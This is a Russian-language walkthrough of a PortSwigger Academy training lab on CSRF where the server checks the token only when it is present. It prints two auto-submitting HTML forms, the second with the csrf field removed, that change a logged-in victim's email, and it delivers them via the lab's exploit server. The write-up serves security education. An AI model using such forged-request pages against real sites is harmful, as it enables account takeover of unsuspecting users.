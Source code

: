 залогинимся под `wiener:peter`

и изменим почту на `test@test.com`
и найдем в `Proxy` -> `HTTP history` этот запрос
```
POST /my-account/change-email
...
email=test%40test.com&csrf=wt84kxYQR5mLEUWXi7iJBKn45WJ36mCC
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/3.%20CSRF%20where%20token%20validation%20depends%20on%20token%20being%20present/pics%20for%20walkthrough/1.png)
Некоторые приложения правильно проверяют маркер, когда он присутствует, но пропускают проверку, если маркер опущен.

В этой ситуации злоумышленник может удалить весь параметр, содержащий токен (а не только его значение) , соответсвенно, чтобы обойти проверку попросту удалим данный токен из запроса


Далее нажмем `ПКМ` -> `Engagement tools` -> `Generate CSRF PoC`
получим следующий запрос 
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af600d103bceadb80d5ee87002b00f8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="wt84kxYQR5mLEUWXi7iJBKn45WJ36mCC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Так как в данной лабораторной работе проверяем что сервер съест запрос и без CSRF токена уберем строку 
```
<input type="hidden" name="csrf" value="wt84kxYQR5mLEUWXi7iJBKn45WJ36mCC" />
```
а так же заменим почту, чтобы у жертвы адрес сменился на `test2@test.com`
и в итоге получим следующий PoC

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af600d103bceadb80d5ee87002b00f8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Перейдем в `Exploit server`
и введем туда нами сконфигурированный PoC
Нажмем `Store`, далее `Deliver exploit to victim`
и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/3.%20CSRF%20where%20token%20validation%20depends%20on%20token%20being%20present/pics%20for%20walkthrough/2.png)
